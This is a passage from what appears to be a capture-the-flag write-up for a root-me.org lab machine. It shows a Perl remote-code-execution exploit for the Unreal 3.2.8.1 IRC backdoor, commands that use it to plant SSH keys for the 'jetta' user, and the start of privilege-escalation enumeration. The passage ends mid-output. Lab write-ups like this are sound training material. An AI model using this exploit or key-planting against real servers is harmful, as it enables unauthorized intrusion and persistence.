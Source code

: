 ```irc
:relativity.localdomain 005 mk EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
```


Knowing this is an Unreal3.2.8.1 IRC server, we quickly find out about an [RCE exploit](https://www.exploit-db.com/exploits/13853/):

```perl
#!/usr/bin/perl
use Socket;
use IO::Socket;

my $command = $ARGV[0];
my $payload = 'AB;'.$command;
my $host = "127.0.0.1";
my $port = "6667";

my $sockd = IO::Socket::INET->new (PeerAddr => $host, PeerPort => $port, Proto => "tcp") || die "Failed to connect to $ircserv on $ircport ...\n\n";
print "Sending: ". $payload . "\n";
print $sockd "$payload";

```

Running this exploit confirms that we can run things and create files as the `jetta` user (the one that launched ircd)
The first order of things is to make our life easier and allow us to ssh as `jetta` directly:

```bash
perl exploit.pl 'mkdir /home/jetta/.ssh'
cp /home/mauk/.ssh/authorized_keys /tmp/
perl exploit.pl 'cp /tmp/authorized_keys /home/jetta/.ssh/'
exit
```

We can now ssh to the machine directly as the `jetta` user:

```bash
ssh -i privatekey jetta@ctf01.root-me.org
```

Looking around we find that there's an `auth_server` binary in the home directory :

```bash
[jetta@Relativity auth_server]$ ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
_______________________________________
/ In America, it's not how much an item \
\ costs, it's how much you save.        /
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

[jetta@Relativity auth_server]$ sudo -l
Matching Defaults entries for jetta on this host:
    requiretty, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
    LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY PATH", env_reset

User jetta may run the following commands on this host:
```